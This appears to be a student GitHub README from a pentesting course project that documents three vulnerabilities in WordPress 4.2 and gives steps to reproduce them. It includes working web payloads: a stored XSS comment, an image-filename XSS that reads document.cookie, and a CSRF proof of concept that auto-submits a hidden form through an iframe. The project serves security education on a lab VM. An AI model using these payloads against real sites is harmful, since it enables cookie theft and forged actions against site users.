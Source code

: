 # Project 7 - WordPress Pentesting

Time spent: 3 hours spent in total

> Objective: Find, analyze, recreate, and document 3 vulnerabilities affecting an old version of WordPress

## Pentesting Report

### 1. Authenticated Stored Cross-Site Scripting (XSS)
  - [X] Summary: inject java script code as a comment 
    - Vulnerability types:XSS
    - Tested in version: 4.2
    - Fixed in version: 4.4
  - [X] GIF Walkthrough: ![Alt Text](https://github.com/rdiaz002/Week_7_Project_WordPress_vs_Kali/blob/master/first_exploit.gif)
  - [X] Steps to recreate: <br />
         -Leave a comment with the following content:<br />
         *\<b onmouseover="alert('This is just a vulnerability')">click me!\</b>*
         
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-comments-post.php)
    
### 2. Authenticated Cross-Site Scripting with Image File
  - [X] Summary: Upload an image file with some javascript at the end of its file name
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.10
  - [X] GIF Walkthrough: ![Alt Text](https://github.com/rdiaz002/Week_7_Project_WordPress_vs_Kali/blob/master/second_exploit.gif)
  - [X] Steps to recreate: <br />
        -create an image file or download an image file. <br />
        -add some javascript to the end of its filename. ex.(\<img src=# onerror=alert(document.cookie)>) <br />
        -upload file to wordpress
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
### 3. Authenticated Cross Site Request Forgery
  - [X] Summary: Create a hidden form that can be submitted by another user when the page loads 
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version: 4.4
  - [X] GIF Walkthrough: ![Alt Text](https://github.com/rdiaz002/Week_7_Project_WordPress_vs_Kali/blob/master/third_exploit.gif)
  - [X] Steps to recreate: <br />
        -create a new comment that includes the javascript code for a new form <br />
        -below that comment create an iframe that will run the form when it loads <br />
        -submit comment <br />
        -refresh page <br /> 
        
        Proof of Concept:
          <form action="http://wpdistillery.vm/wp-comments-post.php" method="post" id="commentform2" class="comment-form" novalidate>
            <input name="comment" type="hidden" value="hello there">
            <input type="hidden" name="comment_post_ID" value="3" id="comment_post_ID">
            <input type="hidden" name="comment_parent" id="comment_parent" value="0">
            <input type="hidden" id="_wp_unfiltered_html_comment_disabled" name="_wp_unfiltered_html_comment" value="8bfe964cea">
           </form>

          <iframe src=# onload=document.getElementById('commentform2').submit()> </iframe>
          
         
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-comments-post.php)


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2019] [Ronuel Diaz]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
